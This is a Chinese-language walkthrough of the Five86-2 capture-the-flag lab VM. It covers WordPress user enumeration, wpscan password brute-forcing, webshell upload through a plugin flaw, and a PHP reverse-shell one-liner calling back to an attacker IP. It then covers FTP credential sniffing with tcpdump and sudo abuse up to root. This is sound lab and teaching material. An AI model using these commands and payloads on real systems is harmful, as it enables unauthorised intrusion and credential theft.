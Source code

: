 ```yaml
---
title: Five86-2
author: Pp1ove
avatar: \img\custom\head.jpg
authorLink: 
authorAbout: Pplover
authorDesc: 一个好奇的人
categories: 靶机
comments: false
date: 2021-02-19 19:40:09
tags: 渗透
keywords:
description:
photos: \img\article\27.png
---
```


# 信息搜集

## 主机发现

```
nmap -sn 192.168.182.0/24

nmap -sS 192.168.182.152
```

![image-20210219194739885](Five86-2/image-20210219194739885.png)

访问80端口,发现出了一点小问题，在hosts文件中加入

```
192.168.182.152  five86-2
```

![image-20210219195425201](Five86-2/image-20210219195425201.png)

这样就好了,在searchsploit和Google并没有发现WordPress 5.1.4的漏洞，还是先访问一下后台

# 后台登录

## wpscan扫描

先用wpscan扫描一下用户名

wpscan --url http://192.168.182.152 -e u  

![image-20210219195834924](Five86-2/image-20210219195834924.png)

将用户名保存到user.txt文件中

## cewl扫密码

cewl http://five86-2/ -w pass.txt

## 暴力破解

```
 wpscan --url http://192.168.182.152 -U user.txt -P pass.txt 
```

没跑出来

```
wpscan --url http://192.168.182.152-U user.txt -P /usr/share/wordlists/rockyou.txt
```

爆破出两个用户的密码

```
[SUCCESS] - barney / spooky1
[SUCCESS] - stephen / apollo1
```

# Getshell

## 插件漏洞

使用darney用户登录一下看看,发现barney用户可以加载插件，然后可以去搜索插件的漏洞，利用插件提权。

![image-20210219204608992](Five86-2/image-20210219204608992.png)

![image-20210219204529868](Five86-2/image-20210219204529868.png)

安着说明上的做,成功上传木马

![image-20210219204657618](Five86-2/image-20210219204657618.png)

准备用蚁剑连接反弹一个shell,但是蚁剑怎么都连不起,就在poc文件里又加了一个nc.php

```php
xxx<?php $sock=fsockopen("192.168.182.137",2333);exec("/bin/sh -i <&3 >&3 2>&3");
```

然后在index.php中?cmd=php nc.php

成功反弹shell

然后使用python进入交互模式

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

# 提权

## 提权paul

### tcpdump的抓包以及流量分析

去home目录下发现都进不去，打算su到其他用户，尝试刚才爆破出来的两个用户，barney用户密码不对,尝试stephen用户，成功登陆到stephen用户

但是找了半天都没有发现提权的方法

![image-20210219213304643](Five86-2/image-20210219213304643.png)

发现用户在pcap用户组里面

查看一下系统进程：

```
ps -auxwww
```

![image-20210219214849382](Five86-2/image-20210219214849382.png)

发现系统运行ftp，由于ftp传输是明文传输，这是时候想到监听系统网卡，分析流量，看看能不能捕捉到ftp的账号密码。
启动ftp的是“paul”帐号，使用“stephen”帐号通过tcpdump获取流量，并下载至本地分析。

```
tcpdump -D
注释：-D 打印出系统中所有可以用tcpdump截包的网络接口。
timeout 120 tcpdump -w hack.pcap -i vethbe01e05
注释：
timeout 120，是用来控制 tcpdump 的超时时间为 120s
tcpdump -w 保存为 saul.pcap，-i 的意思是指定监听的网络接口
```

最后读取刚刚获取的数据包发现一个 FTP 账号密码：

tcpdump -r hack.pcap

![image-20210219221851595](Five86-2/image-20210219221851595.png)

PASS esomepasswford

切换到paul用户

## 提权peter

sudo -l现可以使用peter用户的service程序

![image-20210219222347569](Five86-2/image-20210219222347569.png)

接着我使用 `sudo` 来以 `peter` 用户去运行 `/usr/sbin/service` ，并切换到 `/bin/bash` ，这个时候就成功切换到 `peter` 用户：

```
sudo -u peter /usr/sbin/service ../../bin/bash
```

成功获得peter用户的shell,还是sudo -l一下,发现

![image-20210219222522518](Five86-2/image-20210219222522518.png)

## 提权root

直接改root用户密码

```
sudo -u root passwd root
```

![image-20210219222646493](Five86-2/image-20210219222646493.png)